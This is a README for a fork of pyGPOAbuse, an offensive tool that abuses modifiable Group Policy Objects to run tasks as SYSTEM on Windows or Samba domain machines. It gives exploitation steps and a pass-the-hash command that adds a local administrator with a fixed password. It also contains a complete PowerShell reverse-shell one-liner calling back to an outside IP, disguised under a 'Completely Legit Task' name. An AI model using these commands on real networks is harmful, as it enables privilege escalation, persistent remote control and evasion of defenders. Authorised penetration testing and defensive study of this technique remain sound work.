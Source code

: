 # pyGPOAbuse_samba_ad_dc fork

this fork contains support for samba ad dc for creating tasks behalf of privileged gpo.  

exploitation steps:  
1- create executable file with your needs. it can be bash script or elf binary.  
2- execute pygpoabuse.py against a samba ad dc.  
3- after gp update, machine/machines received a cron job that will be ran at reboot.  
4- reboot machine/machines to see if your executable worked.  

here's a poc:  
![poc](https://github.com/crosscutsaw/pyGPOAbuse_samba_ad_dc/raw/master/assets/forkyou.jpg)

## below is original pygpoabuse repository readme  

## Description

Python **partial** implementation of [SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse) by[@pkb1s](https://twitter.com/pkb1s)

This tool can be used when a controlled account can modify an existing GPO that applies to one or more users & computers. It will create an **immediate scheduled task** as **SYSTEM** on the remote computer for computer GPO, or as logged in user for user GPO.

Default behavior adds a local administrator.

![Example](https://github.com/Hackndo/pygpoabuse/raw/master/assets/demo.gif)

## How to use

### Basic usage

Add **john** user to local administrators group (Password: **H4x00r123..**)

```bash
./pygpoabuse.py DOMAIN/user -hashes lm:nt -gpo-id "12345677-ABCD-9876-ABCD-123456789012"
``` 

### Advanced usage

Reverse shell example

```bash
./pygpoabuse.py DOMAIN/user -hashes lm:nt -gpo-id "12345677-ABCD-9876-ABCD-123456789012" \ 
    -powershell \ 
    -command "\$client = New-Object System.Net.Sockets.TCPClient('10.20.0.2',1234);\$stream = \$client.GetStream();[byte[]]\$bytes = 0..65535|%{0};while((\$i = \$stream.Read(\$bytes, 0, \$bytes.Length)) -ne 0){;\$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString(\$bytes,0, \$i);\$sendback = (iex \$data 2>&1 | Out-String );\$sendback2 = \$sendback + 'PS ' + (pwd).Path + '> ';\$sendbyte = ([text.encoding]::ASCII).GetBytes(\$sendback2);\$stream.Write(\$sendbyte,0,\$sendbyte.Length);\$stream.Flush()};\$client.Close()" \ 
    -taskname "Completely Legit Task" \
    -description "Dis is legit, pliz no delete" \ 
    -user
``` 

### Cleanup
Delete the scheduled task after it executed.

```bash
./pygpoabuse.py DOMAIN/user -hashes lm:nt -gpo-id "12345677-ABCD-9876-ABCD-123456789012" --cleanup
```


## Credits

* [@pkb1s](https://twitter.com/pkb1s) for [SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse)
* [@airman604](https://twitter.com/airman604) for [schtask_now.py](https://github.com/airman604/schtask_now)
* [@SkelSec](https://twitter.com/skelsec) for [msldap](https://github.com/skelsec/msldap)



